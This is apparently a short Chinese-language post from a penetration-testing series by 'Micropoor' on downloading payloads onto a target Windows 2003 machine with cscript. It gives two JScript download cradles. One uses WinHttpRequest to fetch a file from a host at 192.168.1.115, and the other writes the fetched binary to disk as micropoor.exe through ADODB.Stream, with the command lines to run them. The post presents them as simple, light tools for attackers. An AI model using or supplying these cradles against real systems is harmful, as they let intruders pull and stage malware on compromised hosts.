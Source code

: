 专注APT攻击与防御
https://micropoor.blogspot.com/

windows 全版本都会默认支持js，并且通过cscript来调用达到下载payload的目的。

靶机：windows 2003
读取：
`C:\test>cscript /nologo downfile.js http://192.168.1.115/robots.txt`
![](media/ac794b7eb3758d954dbf95912895dd41.jpg)

附代码：
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);
```
写入：
`C:\test>cscript /nologo dowfile2.js http://192.168.1.115/robots.txt`

![](media/21081f49afc31e94235293e3337967b7.jpg)

**附代码：**
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();

BinStream = new ActiveXObject("ADODB.Stream"); BinStream.Type = 1;

BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("micropoor.exe");
```

**后者的话：简单，易用，轻便。**

>   Micropoor
